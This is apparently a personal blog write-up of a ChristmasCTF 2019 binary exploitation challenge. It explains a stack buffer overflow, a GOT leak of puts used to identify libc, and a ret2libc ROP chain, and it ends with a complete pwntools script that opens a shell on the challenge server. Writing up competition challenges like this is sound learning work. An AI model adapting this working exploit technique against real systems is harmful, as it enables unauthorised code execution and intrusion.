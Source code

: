 ```yaml
---
layout: post
title: ChristmasCTF - Binary Explotation
excerpt: "The one binary exploitation problem I tackled this CTF was solo_test which was a 64 bit binary. The problem seemed to be a standard  problem yet it has been one of my first successful exploitations in competition and was a good learning experience."
categories: [Writeups, ChristmasCTF'19]
tags: [pwn]
---
```


The one binary exploitation problem I tackled this CTF was solo_test which was a 64 bit binary. The problem seemed to be a standard  problem yet it has been one of my first successful exploitations in competition and was a good learning experience.

### Pwn

#### Solo_test
```
Let's see if you are really solo :D  
Never lie!  
nc 115.68.235.72 1337  
  
Download
```

Running the file, we see this is a 64 bit executable which is not stripped.
```
solo_test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64  
.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a9dd8736aa73681b63582f4636fd2ee3c7581152, not stripped
```
Running checksec, we see that NX is enabled which means we cannot execute shellcode on the stack.
```
Arch: amd64-64-little  
RELRO: Partial RELRO  
Stack: No canary found  
NX: NX enabled  
PIE: No PIE (0x400000)
```

My first step is to open the program in Ghidra and look at the main function.
```c
  banner();
  pain1();
  pain2();
  pain3();
  pain4();
  pain5();
  solo();
```
Looking at the functions in the main function carefully, it seems like the functions which start with pain just need to be fulfilled by responding correctly to the question. Each of the pain functions wanted a specific answer by checking through a `strncmp(local_88,some string,2);` 

I started my exploit script by answering all of these questions.
```python
def getRead():  
	r.recv()  
	r.sendline("Me")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	r.sendline("CTF")  
	r.recv()  
	r.sendline("Never")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	  
getRead()
```

After we successfully answer the questions, we reach the `solo()` function. 
```c
  undefined local_58 [80];
  
  puts("\nYou passed my solo test!");
  printf("Reward --> ");
  read(0,local_58,0x200);
  return;
```
It is clear in this function that we have a buffer overflow. More bytes are read into the local_58 buffer than is allocated for it. Just like normal, I used pwntools cyclic function to generate a string of length 512 and sent it to the binary. By attaching GDB, I could view the register values when it crashed. I grabbed the value in RSP which is used to calculate the offset in 64 bit binary exploitation and found the offset to be 88. As I've gone over how do this in a previous blogpost, I won't explain in detail how this is done.

Now we have a buffer overflow, how can we get a shell? We can achieve this through  a ROP Chain and using the system function found in libc and the string "/bin/sh" found in libc. The one problem we face is that we don't know what version of libc we are using. The challenge authors did not provide it. To overcome this, we can get a leak on a function in the GOT and search for our libc using a libc database. I chose the leak the puts function.

How do we leak the address of a function? We can call puts from the PLT and ask it to output the address of another function. This can be done using  a simple ropchain. To make things simpler, I loaded the ELF for processing by pwntools by doing `e = ELF("/solo_test")` Now, all I need to do to get the address of puts in the GOT which could be done using `e.got["puts"]`. 

If you are new to ROP Chaining, I recommend reading this article [here](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html). My first payload uses a `pop rdi; ret;`  gadget to setup the arguments for the puts command. Unlike 32 bit in which arguments are put onto the stack, in 64 bit, arguments must be put in the correct register. After outputting the address of where puts was in the GOT, I returned to the `solo()` function in order to avoid segfaulting and so I could continue my exploit after I got a leak of libc. This is my complete first payload:
```python
payload = "A" * 88  
  
pop_rdi = p64(0x400b83)  
got_put = p64(e.got["puts"])  
plt_put = p64(e.plt["puts"])  
plt_main = p64(0x400660)  
  
payload += pop_rdi + got_put + plt_put + p64(0x4009f3)

r.sendline(payload)
```

By sending this to the remote server, I was able to get a leaked address. I then adjusted it and formatted it using the following.
```python
leaked_puts = u64(r.recvline().rstrip().ljust(8, "\x00"))  
print("Leaked libc address, puts: " + str(hex(leaked_puts)))
```

With a leaked address in hand, I used an [online libc database](https://libc.blukat.me/) to identify which version of libc the remote server was using. It found that libc 2.29 was being used. I then downloaded it and loaded it for use in pwntools by writing `libc = ELF("libc6_2.29-0ubuntu2_amd64.so")` 

After identifying the libc version, this was a standard ret2libc attack. First I calculated the libc base address.
```python
libc.address = leaked_puts - libc.sym["puts"]  
print("Address of libc: " + str(libc.address))
```

The final step was to craft a ropchain using the found system and binsh in libc. This was done very easily by using pwntools.
```python
system = p64(libc.sym["system"])  
binsh = p64(next(libc.search("/bin/sh")))  
print("System found at: " + str(hex(u64(system))) + " /bin/sh found at: " + str(hex(u64(binsh))))  
  
ret_gadget = p64(0x4005f1)  
  
payload = "A" * 88  
  
payload += ret_gadget + pop_rdi + binsh + system

r.sendline(payload)
```

One important note is that without the ret_gadget, my exploit would segfault. I believe this was due to a problem with the stack alignment. As I was working using the remote server and not a local copy of the binary, I wasn't able to truly identify the cause of the segfault. However, if you are working in 64 bit and seemingly randomly segfault, try adding a ret_gadget to fix 16 bit stack alignment.

Here is a complete copy of my exploit. Once executed, this gave a shell on the system. The last step was to find the flag in /home/solo_test/flag. 
```python
from pwn import *  
  
context.binary = "solo_test"  
context.terminal = ["tmux", "split", "-h"]  
  
#r = process("./solo_test")  
r = remote("115.68.235.72", 1337)  
e = ELF("./solo_test")  
libc = ELF("libc6_2.29-0ubuntu2_amd64.so")  
  
#gdb.attach(r)  
  
def getRead():  
	r.recv()  
	r.sendline("Me")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	r.sendline("CTF")  
	r.recv()  
	r.sendline("Never")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
  
getRead()  
  
payload = "A" * 88  
  
pop_rdi = p64(0x400b83)  
got_put = p64(e.got["puts"])  
plt_put = p64(e.plt["puts"])  
plt_main = p64(0x400660)  
  
payload += pop_rdi + got_put + plt_put + p64(0x4009f3)  
  
r.sendline(payload)  
r.recv()  
  
leaked_puts = u64(r.recvline().rstrip().ljust(8, "\x00"))  
print("Leaked libc address, puts: " + str(hex(leaked_puts)))  
libc.address = leaked_puts - libc.sym["puts"]  
print("Address of libc: " + str(libc.address))  
  
system = p64(libc.sym["system"])  
binsh = p64(next(libc.search("/bin/sh")))  
print("System found at: " + str(hex(u64(system))) + " /bin/sh found at: " + str(hex(u64(binsh))))  
  
ret_gadget = p64(0x4005f1)  
  
payload = "A" * 88  
  
payload += ret_gadget + pop_rdi + binsh + system  
  
r.sendline(payload)  
  
r.interactive()
```

## Concluding thoughts on binary exploitation

This was my first time doing a ret2libc attack in competition. It was also my first time working to find out what version of libc a binary was using. It was great to be able to sucessfully exploit a program. I also learned the importance of stack alignment and the power of just adding a ret gadget. Overall, this CTF was a great learning experience. I hope to improve my binary exploitation skills and move from the stack towards the heap in the near future.
